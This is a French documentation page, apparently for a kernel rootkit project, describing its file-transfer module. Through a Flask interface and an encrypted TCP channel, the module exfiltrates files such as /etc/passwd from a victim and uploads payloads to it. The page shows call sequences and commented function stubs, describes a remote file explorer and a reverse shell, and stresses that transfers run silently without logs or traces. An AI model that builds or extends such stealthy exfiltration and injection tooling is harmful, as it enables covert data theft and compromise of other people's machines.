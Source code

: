 \page transfer Transfert
\tableofcontents

Le rootkit intègre un mécanisme complet de **transfert de fichiers** entre la machine attaquante et la machine victime. Ce système permet d’exfiltrer et d’injecter des fichiers de manière rapide, simple et discrète. L’ensemble est contrôlable en quelques clics depuis l’interface graphique. Deux fonctionnalités sont proposées :
- *download* : exfiltration d’un fichier depuis la victime
- *upload* : injection d’un fichier depuis l’attaquant vers la victime

## 1. 🛠️ Présentation

Le système repose sur deux composantes complémentaires :
- une **interface web** permettant à l’attaquant de naviguer, envoyer ou recevoir des fichiers,
- une partie **noyau**, capable de lire ou écrire sur le système de fichiers distant de manière totalement furtive.

Le protocole est simple :
1. Une commande est envoyée au rootkit via TCP (`upload` ou `download`),
2. Le rootkit prépare le transfert et répond `READY`,
3. Le fichier est ensuite transmis de manière encodée (hexadécimal) par paquets,
4. Une fois terminé, le module libère la mémoire utilisée.

Les transferts utilisent un format hexadécimal pour assurer une compatibilité réseau maximale tout en simplifiant l’analyse et le traitement.

```c
// === UPLOAD ===
upload_handler("/tmp/payload.bin 2048", TCP);
// => READY
handle_upload_chunk(data_chunk1, 1024, TCP);
handle_upload_chunk(data_chunk2, 1024, TCP);
// => Fichier écrit sur disque par le rootkit

// === DOWNLOAD ===
download_handler("/etc/passwd", TCP);
// => SIZE 1234
download("READY");
// => Contenu envoyé en hexadécimal
```

## 2. 📤 Téléversement

### 2.1 Interface web

La partie upload du système de transfert de fichiers permet de choisir un fichier local et de spécifier son chemin cible sur la victime. Une fois validé, l’interface web Flask :
- lit le fichier en mémoire,
- prépare une commande `upload <remote_path> <size>`,
- envoie le fichier en **chunks successifs** dès réception du mot-clé `READY` du rootkit.

Chaque étape est contrôlée et confirmée via un système de messages.

### 2.2 Rootkit

À la réception de la commande `upload`, le rootkit :
- alloue dynamiquement un buffer mémoire,
- initialise le chemin cible,
- répond `READY` à l’interface Flask,
- reçoit ensuite les données via `handle_upload_chunk()` en plusieurs morceaux jusqu’à ce que la taille annoncée soit atteinte.

Une fois le fichier complet, il est écrit sur disque, et les ressources sont automatiquement nettoyées.

```c
// upload_handler : initialise l’upload
int upload_handler(char *args, enum Protocol protocol) {
    // Parse le chemin et la taille
    // Alloue la mémoire avec vmalloc
    // Répond "READY" si tout est prêt
}

// handle_upload_chunk : reçoit les données
int handle_upload_chunk(const char *data, size_t len, enum Protocol protocol) {
    // Copie les chunks dans le buffer
    // Une fois complet : écrit le fichier sur disque
}
```

## 3. 📥 Téléchargement

### 3.1 Interface web

Le téléversement inversé (download) est déclenché depuis l’interface graphique à travers l'explorateur de fichiers. Une fois lancée :
- le rootkit envoie un message `SIZE <octets>`,
- l’interface répond `READY`,
- le fichier est reçu et enregistré dans un dossier sécurisé (`downloads`).

### 3.2 Rootkit

Lors d’un téléchargement, le rootkit :
- ouvre le fichier demandé,
- lit entièrement son contenu en mémoire,
- encode le tout en hexadécimal,
- attend la commande `READY` pour lancer le transfert vers l’attaquant.

Le tout est effectué de manière silencieuse, sans logs visibles ni traces dans les systèmes de fichiers utilisateurs.

```c
// download_handler : prépare la lecture
int download_handler(char *args, enum Protocol protocol) {
    // Ouvre le fichier
    // Lit son contenu en mémoire
    // Répond avec "SIZE <taille>"
}

// download : envoie le fichier après "READY"
int download(const char *command) {
    // Encode en hexadécimal
    // Envoie le buffer via send_to_server_raw
    // Libère la mémoire allouée
}
```

## 4. 🗂️ Explorateur de fichiers

La page `/explorer` de l’interface web permet de naviguer à distance dans le **système de fichiers de la victime**, en s’appuyant sur des commandes `ls` successives envoyées via le rootkit. L’exploration n’est pas persistante : à chaque requête, une commande est envoyée au rootkit pour lister le contenu du répertoire actuel. C’est uniquement lorsqu’on utilise le **reverse shell** que l'envoi de commandes devient persistant.

Le chemin courant est maintenu côté interface (frontend) afin de reconstituer une expérience de navigation cohérente. Chaque clic sur un dossier envoie une nouvelle commande `ls <chemin>` au rootkit, qui retourne la liste des fichiers ou sous-dossiers présents à cet emplacement.

Cette fonctionnalité permet à l’attaquant de :
- repérer rapidement les fichiers intéressants sur la victime,
- initier un téléchargement (`download`) ou un upload vers un répertoire spécifique,
- analyser la structure du système distant sans laisser de trace apparente côté utilisateur.

Un historique des tranferts successifs des fichiers est également disponible.

## 5. 🔐 Sécurité

Tous les échanges réseau se font via le canal TCP déjà chiffré (AES). L’utilisation d’un format hexadécimal permet d’éviter les problèmes de transport binaire tout en simplifiant le traitement côté rootkit. Les transferts sont atomiques : un seul fichier à la fois, avec contrôle de taille, accusé de réception et gestion mémoire stricte.

## 6. 💡 Pistes d’amélioration

- Ajout d’un checksum (SHA256) pour vérifier l’intégrité
- Compression légère (gzip, LZ4) pour réduire la taille des transferts

<img 
  src="logo_no_text.png" 
  style="
    display: block;
    margin: 100px auto;
    width: 30%;
    overflow: hidden;
  "
/>
